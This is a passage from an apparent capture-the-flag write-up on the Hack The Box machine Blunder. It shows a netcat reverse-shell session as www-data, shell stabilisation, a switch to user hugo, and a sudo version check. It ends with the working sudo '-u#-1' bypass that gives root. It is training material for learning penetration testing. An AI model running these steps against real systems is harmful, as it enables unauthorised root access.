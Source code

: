 Run the script again, and visit the page:

```
root@kali:/home/kali/htb/blunder# nc -nlvp 1337
Listening on 0.0.0.0 1337
Connection received on 10.129.108.197 50684
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ script /dev/null -c bash
Script started, file is /dev/null
www-data@blunder:/var/www/bludit-3.9.2/bl-content/tmp/temp$ ^Z
[1]+  Stopped                 nc -nlvp 1337
root@kali:/home/kali/htb/blunder# stty raw -echo
nc -nlvp 1337me/kali/htb/blunder# 
             reset
reset: unknown terminal type unknown
Terminal type? xterm
www-data@blunder:/var/www/bludit-3.9.2/bl-content/tmp/temp$ export TERM=xterm
www-data@blunder:/var/www/bludit-3.9.2/bl-content/tmp/temp$ export SHELL=bash
www-data@blunder:/var/www/bludit-3.9.2/bl-content/tmp/temp$ 
www-data@blunder:/var/www/bludit-3.9.2/bl-content/tmp/temp$ su hugo
Password: 
hugo@blunder:/var/www/bludit-3.9.2/bl-content/tmp/temp$ sudo -l
Password: 
Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
hugo@blunder:/var/www/bludit-3.9.2/bl-content/tmp/temp$ 
```

so we can run /bin/bash as any user except root as hugo.

I simply google `(ALL, !root) /bin/bash exploit` and https://www.exploit-db.com/exploits/47502 is the top result

It's for sudo <1.8.27

```
hugo@blunder:~$ sudo -V
Sudo version 1.8.25p1
Sudoers policy plugin version 1.8.25p1
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.25p1
hugo@blunder:~$ 
```

So It should work.

```
hugo@blunder:~$ sudo -u#-1 /bin/bash
root@blunder:/home/hugo# whoami
root
root@blunder:/home/hugo# id
uid=0(root) gid=1001(hugo) groups=1001(hugo) 
```
